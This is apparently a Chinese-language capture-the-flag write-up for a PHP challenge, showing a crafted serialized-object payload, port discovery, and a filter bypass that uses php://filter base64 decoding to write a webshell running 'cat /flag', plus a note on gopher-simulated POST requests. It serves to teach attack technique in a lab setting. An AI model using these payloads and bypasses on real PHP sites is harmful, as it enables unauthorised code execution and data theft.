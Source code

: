 


第五空间题目类似

![dwi7uV.png](https://s1.ax1x.com/2020/08/23/dwi7uV.png)



构造如下

```
a:2:{i:0;O:4:"User":3:{s:3:"age";O:4:"Pass":0:{}s:3:"sex";s:4:"read";s:3:"num";s:6:"result";}i:0;O:4:"User":3:{s:3:"age";O:4:"Pass":0:{}s:3:"sex";s:4:"read";s:3:"num";s:4:"this";}}
```



![dwiIcq.png](https://s1.ax1x.com/2020/08/23/dwiIcq.png)



爆破发现存在 40000 和 40557端口

![dBo5rR.png](https://s1.ax1x.com/2020/08/24/dBo5rR.png)

40000端口根据html猜测 存在文件上传，

![dBoIq1.png](https://s1.ax1x.com/2020/08/24/dBoIq1.png)

尝试随便请求一个 写入成功，文件内容写入shell时

存在过滤返回error 应该是过滤了`<?`

尝试伪协议写文件

```
php://filter/write=convert.base64-decode/resource=1.php
```

也存在过滤，将伪协议拆分验证，发现过滤write，直接去掉绕过，

写base64时 也返回error ，尝试添加无意义字符，绕过成功  类似如下

```
 111<?php system('cat /flag');?> 222
```



```php
<?php
file_put_contents("php://filter/convert.base64-decode/resource=1.php","MTIzMTw/cGhwIHN5c3RlbSgnY2F0IC9mbGFnJyk7Pz4x");
?>
```



gopher 模拟post 请求

 ![dwiHBT.png](https://s1.ax1x.com/2020/08/23/dwiHBT.png)


